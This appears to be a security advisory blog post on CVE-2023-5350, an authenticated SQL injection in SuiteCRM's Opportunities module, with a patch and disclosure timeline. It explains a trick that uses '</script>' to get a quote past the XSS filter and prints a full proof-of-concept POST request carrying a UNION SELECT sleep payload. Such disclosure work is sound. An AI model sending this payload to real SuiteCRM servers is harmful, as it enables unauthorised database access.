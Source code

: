 ```yaml
---
layout: post
title:  CVE-2023-5350 - SuiteCRM < v7.14.0 authenticated SQL injection
date:   2024-01-11 02:50:40 +0100
img_path: /assets/img/2024-01-11-cve-2023-5350-SuiteCRM-SQLi/
category: advisory
inadvisory: true
cve: CVE-2023-5350
advisory_title: SuiteCRM < v7.14.0 authenticated SQL injection
date_cve: 2024-06-30
details_ok: true
---
```


# TL;DR

Authenticated SQL injection affecting the ``Opportunities`` module of SuiteCRM for versions prior to 7.14.0


# Details

At CrowdStrike, following claims from a threat actor to have hacked SuiteCRM at multiple entities using a SQL injection, I started a little audit of SuiteCRM to uncover whether the threat was realistic or not. Upon research, I stumbled on the ``modules/Opportunities/Save.php`` file, in which we can find the following code:

```php
require_once('modules/Opportunities/OpportunityFormBase.php');
$opportunityForm = new OpportunityFormBase();
$opportunityForm->handleSave('',true,false);
```

The ``handleSave`` function may end up calling the ``clone_relationship`` function, using the ``duplicate_parent_id`` ``POST`` variable as 4th argument:

![code1](code1.png)

Within the ``clone_relationship`` function, a SQL query is created with this 4th argument, that could lead to SQL injection:

```php
function clone_relationship(&$db, $tables, $from_column = null, $from_id = null, $to_id = null)
{
    [...]
            $query = "SELECT * FROM $table WHERE $from_column='$from_id'";
        }
        $results = $db->query($query);
    [...]
```

At that point, several security measures prevent direct exploitation of this SQL injection:
- The ``Save.php`` file cannot be accessed directly due to a ``.htaccess`` directive setting up a ``403 unauthorized access`` on modules directory.
- The ``Save.php`` requires a valid “SugarEntry” entrypoint, that gets defined by going through the ``index.php`` endpoint with the ``action=Save`` and ``module=Opportunities`` parameters. However, doing so, the ``POST`` variables are filtered (quote gets encoded) against basic SQL injection through the use of the ``clean_incoming_data`` function.

Yet, the ``clean_incoming_data`` function can be tricked into leaving quotes unencoded, as highlighted by [this previous bounty report](https://huntr.dev/bounties/8afb7991-c6ed-42d9-bd9b-1cc83418df88/). Yet, the inner working of this bypass was not explained. 

Typically, the ``clean_incoming_data`` function calls the inner ``securexss`` function on each ``$_POST`` value. This ``securexss`` function first encodes quotes and then calls the ``xss_clean`` function from Voku. This ``xss_clean`` function decodes all characters present in the input string to clean; in order to detect and strip all the javascript related words afterwards. In case a javascript payload is detected by the function, then the cleaned up (and so decoded) string is returned. In case there is no payload detected, then the original string is returned (the encoded one). By integrating ``<script>`` in the SQL payload, ``xss_clean`` decodes the string (transform back the encoded quote to a decoded one), detect the attack and remove the ``<script>`` tag before returning the string with the decoded quote.

Here is an example request showing SQL injection by triggering a 5 seconds sleep by SuiteCrm application:

```
POST /suitecrm/index.php HTTP/1.1

Host: <redacted>
Content-Length: 633
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: <redacted>
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/114.0.5735.199 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://<redacted>/suitecrm/index.php
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: EmailGridWidths=0=10&1=10&2=150&3=250&4=175&5=125; Users_sp_tab=All; Opportunities_sp_tab=All; ck_login_language_20=en_us; ck_login_theme_20=SuiteP; sugar_user_theme=SuiteP; PHPSESSID=7t8i63rduuadi6vg2n5tsemrq9; ck_login_id_20=d1c6197a-c7cf-4d2f-6970-649c44bd341a
Connection: close


module=Opportunities&record=&duplicateSave=true&duplicate_parent_id=1</script>'%20UNION%20SELECT%20sleep(5),1,2,3,4,5%20--%20-&duplicateId=3005bd81-1904-8e56-d5f5-649d55cc7438&isDuplicate=false&action=Save&return_module=Opportunities&return_action=DetailView&return_id=&module_tab=&contact_role=&offset=1&name=test23&account_name=testaccount&account_id=9bf1efd4-30c2-9e99-067c-649d4e24e2bf&currency_id=-99&date_closed=09%2F07%2F2023&amount=1%2C000%2C000.00&opportunity_type=&sales_stage=Prospecting&lead_source=&probability=10&campaign_name=&campaign_id=&next_step=&description=&assigned_user_name=gg+Administrator&assigned_user_id=1
```
# Proposed patch

The following modifications were proposed to secure the vulnerability:

- Use ``focus->db->quote`` in front of the ``$_POST['duplicate_parent_id']`` variable in the ``clone_relationship`` call to make sure quotes are escaped **->** <span style="color:green">implemented ([commit](https://github.com/salesagility/SuiteCRM/commit/bd9328e79f39ad0f49a53f609bfb5e42762b5fd8))</span>
- Modify the ``securexss`` function to encode the string after the ``xss_clean`` function call **->** vendor argued testing was necessary before incorporating this change, which is understandable. Last time I checked it was not implemented.

# Timeline

30 Jun 2023 : initial report
30 Jun 2023 : vendor confirmation
29 Aug 2023 : update available
